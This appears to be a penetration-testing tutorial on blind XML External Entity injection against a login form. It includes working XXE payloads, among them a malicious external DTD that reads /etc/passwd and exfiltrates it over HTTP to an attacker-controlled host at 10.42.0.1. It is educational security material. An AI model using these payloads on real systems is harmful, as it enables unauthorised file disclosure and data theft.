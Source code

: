 ```yaml
---
title: Blind XML External Entity
date: 2022-01-01 05:49:33 +0800
categories: [WebApp And Api Pentesting, Blind XML External Entity]
tags: []  
---
```


# Blind XML External Entity

***Blind XXE vulnerabilities*** arise where the application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses. This means that direct retrieval of server-side files is not possible.

# Detecting Blind XML External Entity

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe1.png)

This is a basic login form with username and password, Let's attempt to supply username and password and intercept the request in our burpsuite.

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe2.png)

As you can see, we received `invalid username and password` because our credentials are incorrect.

## XML Parser

Let's try to find blind xxe vulnerability here, we are going to supply incorrect xml to our target. To do that, we will change the value of `Content-Type` to `text/xml` which will look like this `Content-Type: text\xml`. This content-type will indicate to the server that we are supplying `xml` data.

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe3.png)

We received `Invalid XML` from the server, this is because we supplied an incorrect xml data `username=exploit&password=payload` to the server which the xml parser can't able to process it. This error message proved that the backend is using `xml parser` to process user's data.

Let's attempt to fix the error by supplying correct xml data to the server.

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe4.png)

After supplying correct xml data, we were able to fix the error, proving the backend is using xml parser to process users's data.

## XML Entity.

To determine whether or not `XML Entity` is enabled, We will supply the following payload, which if successfull will send a request to our web server.

```xml
<?xml version="1.0"?>
	<!DOCTYPE exploit [ <!ENTITY % ping SYSTEM "http://[your_host]"> %ping;]>
	<test>
		redteam
	</test>
	
```
![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe5.png)

As you can see we were able to receive a response from our target, implying that `XML Entity` is enabled.

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe5kali.png)

# Exploitation

## Data Exfiltration

Given that `xml entity` is enabled, we can take advantage of it to exfiltrate data from our target server. We will make the server load a new DTD with a malicious payload that will send the content of a file via HTTP request. To do that, we will host our malicous DTD file at port 9090 and use port 90 to receive the exfiltrated data.

here is the content of our malicous DTD that will be used to exfiltrate content of `/etc/passwd` file.

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.42.0.1:90/?x=%file;'>">
%eval;
%exfiltrate;
```

We will supply the following payload to our target.

```xml
<?xml version="1.0"?>
	<!DOCTYPE exploit [ <!ENTITY % data SYSTEM "http://10.42.0.1:9090/payload.dtd"> %data;]>
	<test>
		redteam
	</test>
```

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe6.png)

The below image shows the content of `/etc/passwd` has been exfiltrated from the target.

![xxe](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/bxxe7kali2.png)

# Mitigations

- Disable DTDs (External Entities) completely.

# References

- [https://portswigger.net/web-security/xxe/blind](https://portswigger.net/web-security/xxe/blind)
- [https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)
